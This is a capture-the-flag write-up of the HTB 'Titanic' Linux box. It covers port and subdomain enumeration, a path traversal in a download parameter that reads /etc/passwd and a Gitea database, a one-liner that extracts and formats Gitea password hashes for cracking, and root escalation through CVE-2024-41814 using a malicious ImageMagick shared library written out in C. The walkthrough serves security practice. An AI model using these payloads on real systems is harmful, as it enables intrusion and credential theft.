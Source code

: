 
![Capture d'écran 2025-02-20 194259](https://github.com/user-attachments/assets/a37715f4-e765-4ec4-97ec-f3dd0304c793)

This machine is part of **HTB Season 7** and is categorized as an **easy** Linux box. It provides a great learning experience by combining **web enumeration, credential extraction, and privilege escalation**. The challenge revolves around exploring a developer's environment, uncovering sensitive information, and leveraging vulnerabilities to gain root access. Let’s dive in! 
### Setup

Before starting the reconnaissance phase, we need to add the target machine’s IP address to the `/etc/hosts` file:

![Capture d'écran 2025-02-20 194453](https://github.com/user-attachments/assets/3b2f6fdd-c034-4ee8-ae94-93af0f926d1e)

### Recon 

We begin by scanning the target machine (10.10.11.55) for open ports using `nmap`:
`nmap 10.10.11.55 -sV -sC -p- -oN nmapres`


![Capture d'écran 2025-02-20 195653](https://github.com/user-attachments/assets/d3a63423-183a-49f7-bb36-4e77900326dc)

The scan reveals two open ports : 
	`22/tcp
	`80/tcp`

### Enumerating directories with gobuster

We use `gobuster` to discover directories:

`gobuster dir -u titanic.htb  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt > gobusteres`

![Capture d'écran 2025-02-20 201433](https://github.com/user-attachments/assets/cdd232aa-1e3c-4f0d-8af2-67f56bbb9204)

This reveals three subdirectories : 
	`/download` (code 400)
	`/book` (code 405)
	`/server-status` (code 403)

### Discovering subdomains with FFUF 

````
ffuf -u http://titanic.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.titanic.htb" -fw 20
````

![Capture d'écran 2025-02-20 202219](https://github.com/user-attachments/assets/5387c517-a434-4e8b-9c21-48be86fc2da0)

The scan reveals a subdomain: **dev.titanic.htb**. We add it to `/etc/hosts` and visit the webpage.

![Capture d'écran 2025-02-20 202944](https://github.com/user-attachments/assets/85df2849-07b4-4d6d-a708-ff58dbece698)

## Exploring the web application

Now we can access to the web page : 

![Pasted image 20250220203131](https://github.com/user-attachments/assets/d9c948dd-54f7-41e1-bbdb-52123fc90b5a)

Upon accessing `dev.titanic.htb`, we find two developer repositories: 

	docker-config
	flask-app

![Capture d'écran 2025-02-20 203936](https://github.com/user-attachments/assets/e837bb0e-d340-4fec-b74f-5b49d1f1eab1)

In `docker-config/mysql`, we discover a `docker-compose.yml` file containing credentials : 

![Capture d'écran 2025-02-20 213249](https://github.com/user-attachments/assets/beb0a1bf-9200-4baf-86fd-b4eff23a676e)

Here we have found the **root password**, **username** and **user's password** of the database.

We can also checked the `flask-app` repository where we can find the `app.py` file : 

![Capture d'écran 2025-02-20 214424](https://github.com/user-attachments/assets/bff8fc94-af4d-485a-819b-94b2ced8e3fd)

Here we can found the **download** route using a **GET** parameter : `ticket`.

![Capture d'écran 2025-02-20 214616](https://github.com/user-attachments/assets/8b8c0377-55e8-4540-b4d7-6abd6fb9b77a)

## Exploiting path traversal

Let's try if we can exploit a potential **Path Traversal attack** on `http://titanic.htb/download?ticket=/etc/passwd`

... and it's worked ! 

This successfully retrieves the `/etc/passwd` file, confirming a vulnerability.

![Capture d'écran 2025-02-20 215106](https://github.com/user-attachments/assets/19014c4f-8613-4224-87bf-f6ca6de34430)

## Extracting gitea credentials

So now that I know that **Path Traversal attack** worked, I switched to `Burp Suite` : 

And we can identify the **developer** user : 

![Capture d'écran 2025-02-20 215740](https://github.com/user-attachments/assets/b65fab45-9208-4a7a-a0f0-1435ce16e1a8)

Based on  [**Gitea documentation**](https://docs.gitea.com/installation/install-with-docker) we locate the `app.ini` file  : 

![Capture d'écran 2025-02-20 222950](https://github.com/user-attachments/assets/e8453d7b-ed62-47e3-a88c-f0e185f254f7)

Then I cheked the `data/gitea/gitea.db` file. So first I've downloaded it and then I and found hashes passwords : 

![Capture d'écran 2025-02-20 223654](https://github.com/user-attachments/assets/24c228ff-7472-446f-b6b8-a126c08c8d80)

Let's check if we can crack any of these...

But first, we need to properly extract each password. To do this, we'll use the following command suggested by **[oxdf](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html)** :

````
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
````

![Capture d'écran 2025-02-20 224908](https://github.com/user-attachments/assets/660c3ff7-6082-4584-a946-2f3e31f0972d)

And we successfully crack two hashes : 

![Capture d'écran 2025-02-22 183335](https://github.com/user-attachments/assets/682cd79d-253a-4c59-95a4-9a3388c78d4c)

We can now try to connect via **ssh** with that password : 

![Capture d'écran 2025-02-20 230017](https://github.com/user-attachments/assets/a13c0226-7c1f-4ef6-a1e8-c7137e40bc20)

From there, we can have access to the **user flag** :

![Capture d'écran 2025-02-20 230146](https://github.com/user-attachments/assets/b1fad3fc-4341-4f0d-b682-b44ea94d23ab)

## Privilege escalation

After enumerating a bit the target machine, I found a script `identify_images.sh` owned by the **root user** and can be executed by the **developer user**. We can supposed that this script is executed every **x** minutes by the **root user**.

![Capture d'écran 2025-02-20 231736](https://github.com/user-attachments/assets/357362b1-ddbe-4c13-8e34-db5d766f6246)

We can see that the script is using **magick** binary so we can first check the version : 

![Capture d'écran 2025-02-21 003735](https://github.com/user-attachments/assets/ecb5dfb3-d9ec-4617-a515-cfb5b0aa3578)

Checking the `ImageMagick` version reveals it is vulnerable to **CVE-2024-41814**  : [CVE](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

![Pasted image 20250221004308](https://github.com/user-attachments/assets/3266fca8-15a1-48ca-8272-a29165a5b25c)

### Exploiting CVE-2024-41814

From the **identify_images.sh** script, we can see that it first changes the directory to `/opt/app/static/assets/images`. It searches for all files with a `.jpg` extension in the directory and its subdirectories using the `find` command and processes each `.jpg` file with the `magick identify` command and appends the output to `metadata.log`.

So we first need to craft a malicious shared library in the current working directory : 

````
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/pwned");
    exit(0);
}
EOF
````

And then we create a fake image file from an existing `jpg` file :  `cp home.jpg root.jpg`

After waiting for `identify_images.sh` to execute, the root flag appears in `/tmp/pwned`.

![Capture d'écran 2025-02-22 181155](https://github.com/user-attachments/assets/f8ad46d0-773d-4430-a82b-b2e185bcad1a)

**Congratulations!** This CTF was a great opportunity to practice essential pentesting techniques, from **reconnaissance** with `nmap`, `gobuster`, and `ffuf` to **web exploitation** through a path traversal vulnerability. It also involved **credential extraction and cracking** using SQLite, followed by **privilege escalation** through an `ImageMagick` vulnerability. Each step highlighted the importance of methodical enumeration and creative exploitation.

I hope you found this writeup insightful. Thanks for reading and happy hacking!

![Capture d'écran 2025-02-21 005228](https://github.com/user-attachments/assets/05e368ee-b21b-4fc5-ad09-e0b883f9aed0)

